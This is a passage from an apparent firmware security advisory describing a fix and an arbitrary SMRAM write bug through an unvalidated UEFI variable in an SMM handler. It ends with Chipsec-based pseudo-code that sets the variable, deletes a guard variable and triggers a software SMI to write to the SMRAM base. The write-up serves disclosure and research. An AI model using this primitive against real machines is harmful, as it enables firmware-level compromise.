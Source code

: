 ##### The Fix
- Statically set `DataSize` to 8 if writing status messages to physical memory is a requirement.
- OR check the value of `DataSize` after the initial call to `GetVariable`, return if greater than 8.

### Vulnerability II: Arbitrary Write To Physical Memory (including SMRAM)

##### The Problem

The attacker-controlled `WMIAcpiMemAddr` variable is never validated - leading to two arbitrary SMM write primitives.

```
fnWriteStatusToMemory("Access Denied", &pWMIAcpiMemAddr->status);
```

```
fnResetWideString(&pWMIAcpiMemAddr->status, 2 * v8, 0i64);
```

##### The Result

An attacker who controls the contents of the `WMIAcpiMemAddr` variable can leverage the two functions above to write data at `pWMIAcpiMemAddr->status` _(pWMIAcpiMemAddr+0x79)_, leading to SMRAM corruption.

If the variable `ApServiceAuthority` exists and is zero, `fnResetWideString` will zero out the memory at pWMIAcpiMemAddr+0x79 (until it finds 0x0 0x0).

If the variable `ApServiceAuthority` does not exist, **" Access Denied"** will be written to pWMIAcpiMemAddr+0x79 via `fnWriteStatusToMemory`.

##### The (Basic) Exploit

Python pseudo-code using Chipsec:

<div class="example">
</div>
```
def smm_write(addr):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    (addr - 0x79).to_bytes(8, "little"),
    8,
    7,
  )

  if status != 0:
    print("Failed to set WMIAcpiMemAddr!")
    exit(1)

  status = self.cs.helper.delete_EFI_variable(
    "ApServiceAuthority", "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9"
  )

  if status != 0:
    print("Failed to delete ApServiceAuthority!")
    exit(1)

// Set UEFI variable WMIAcpiMemAddr to SMRAM base
smm_write(0x4a000000)

// call handler to write " Access Denied" to SMRAM base
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```
